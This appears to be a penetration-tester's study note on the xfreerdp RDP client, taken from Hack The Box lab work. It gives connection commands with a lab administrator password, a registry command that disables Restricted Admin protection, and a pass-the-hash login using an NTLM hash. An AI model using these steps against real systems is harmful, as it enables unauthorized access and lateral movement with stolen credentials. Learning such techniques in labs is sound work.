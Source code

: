 ```yaml
---
tags:
  - Enumeration
  - TCP
  - RemoteDesktopProtocol
  - RDP
  - Tooling
---
```


[xfreerdp(1): FreeRDP X11 client - Linux man page](https://linux.die.net/man/1/xfreerdp)

xFreeRDP is an open-source remote desktop protocol (RDP) client that allows users to connect to a Windows desktop from a Linux, macOS, or other operating systems. It provides a graphical interface for accessing remote desktops and can be used for tasks such as remote administration, technical support, and accessing files and applications on a remote computer. xFreeRDP supports various RDP protocols and features, making it a versatile tool for remote desktop access.

# Command Example

```shell-session
xfreerdp /v:<targetIp> /u:User /p:Password
```

```shell-session
xfreerdp /u:Administrator /p:'HTB_@cad3my_lab_W1n10_r00t!@0' /v:10.129.23.147 /dynamic-resolution
```


## Pass the Hash

#### Enable Restricted Admin Mode to Allow PtH

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[[Pass the Hash (PtH)]]:

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```